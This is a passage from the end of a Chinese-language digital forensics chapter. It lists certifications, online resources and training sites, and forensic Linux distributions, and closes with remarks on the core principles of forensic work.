| CCE (Certified Computer Examiner) | ISFCE | 综合取证能力 | 通用取证人员 |
| CHFI (Computer Hacking Forensic Investigator) | EC-Council | 综合取证调查 | 入门到中级 |

### 13.3 在线资源与社区

| 资源 | 链接 | 说明 |
|------|------|------|
| SANS Digital Forensics | https://www.sans.org/digital-forensics/ | 专业取证培训和研究 |
| NIST CFTT | https://www.nist.gov/programs-projects/computer-forensic-tool-testing | 取证工具测试标准 |
| The Sleuth Kit | https://www.sleuthkit.org/ | 开源取证工具集 |
| Volatility Foundation | https://www.volatilityfoundation.org/ | 内存取证框架 |
| Forensic Focus | https://www.forensicfocus.com/ | 取证社区论坛 |
| DFIR.training | https://www.dfir.training/ | DFIR 培训资源汇总 |
| 13Cubed | https://www.youtube.com/@13Cubed | 高质量取证教程视频 |
| Eric Zimmerman Tools | https://ericzimmerman.github.io/ | Windows 取证工具集 |

### 13.4 取证 Linux 发行版

| 发行版 | 特点 | 适用场景 |
|--------|------|----------|
| Kali Linux | 包含取证模式（forensic mode），不会自动挂载磁盘 | 通用安全与取证 |
| CAINE | 专门的取证发行版，预装大量取证工具 | 专用取证工作站 |
| SIFT Workstation | SANS 出品，取证工具经过专业配置 | 专业取证分析 |
| REMnux | 专注于恶意软件分析 | 恶意软件取证 |
| Tsurugi Linux | 综合 DFIR 发行版，包含最新工具 | 全面的 DFIR 工作 |

---

> **本章寄语**：数字取证是一门将技术、法律和调查艺术融为一体的学科。技术在不断演进——从磁盘到内存、从本地到云端、从单机到 IoT——但取证的核心原则始终不变：完整性、可靠性、可重复性和客观性。掌握这些原则，再辅以持续学习新的技术手段，你就能在任何取证场景中找到真相。
